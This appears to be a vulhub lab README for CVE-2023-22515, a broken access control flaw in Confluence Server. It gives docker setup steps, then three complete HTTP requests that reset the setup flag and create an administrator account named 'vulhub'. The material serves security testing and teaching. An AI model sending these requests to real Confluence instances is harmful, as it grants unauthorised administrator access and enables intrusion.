

# Confluence Access Control Broken by Attributes Overwrite (CVE-2023-22515)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

On October 4, 2023, Atlassian published a security advisory on CVE-2023-22515, a critical vulnerability affecting on-premises instances of Confluence Server and Confluence Data Center. CVE-2023-22515 was originally announced as a privilege escalation vulnerability, but was later changed to a broken access control flaw.

Versions prior to 8.0.0 are not affected by this vulnerability.

References:

- <https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html>
- <https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis>

## Vulnerable Environment

Execute following command to start a Confluence Server 8.5.1:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.


## Exploit

Firstly, send the main request to overwrite the attribute `bootstrapStatusProvider.applicationConfig.setupComplete`:

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

Then, you will be able to create a administrator user `vulhub` through the website setup action:

```
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

Optionally, send the following request to finish the setup wizard:

```
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check


```

Finally, you can simply login to the administrator panel with account `vulhub` and password `vulhub`:


